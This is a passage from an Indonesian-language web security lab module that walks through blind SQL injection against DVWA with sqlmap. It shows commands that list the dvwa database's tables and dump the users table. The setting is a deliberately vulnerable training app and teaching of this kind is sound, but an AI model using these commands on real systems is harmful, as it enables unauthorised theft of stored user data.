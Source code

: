 Didapatkan daftar database yang ada pada server
```
[*] dvwa
[*] information_schema
```

5. Ubah command sqlmap sebelumnya menjadi:
```
sqlmap -u "[url]" --cookie="[cookies]" --data="[request]" -D dvwa --tables --batch
```
>command di atas akan menampilkan tabel yang ada dalam database dvwa  

![sqlmap2](https://github.com/arsitektur-jaringan-komputer/Modul-Web-App-Security/blob/master/src/blind_sqlmap2.png?raw=true)

6. Ubah lagi command sqlmap sebelumnya untuk menampilkan data dalam tabel users
```
sqlmap -u "[url]" --cookie="[cookies]" --data="[request]" -D dvwa -T users --dump --batch
```
>--dump digunakan untuk menampilkan semua data didalam sebuah tabel  
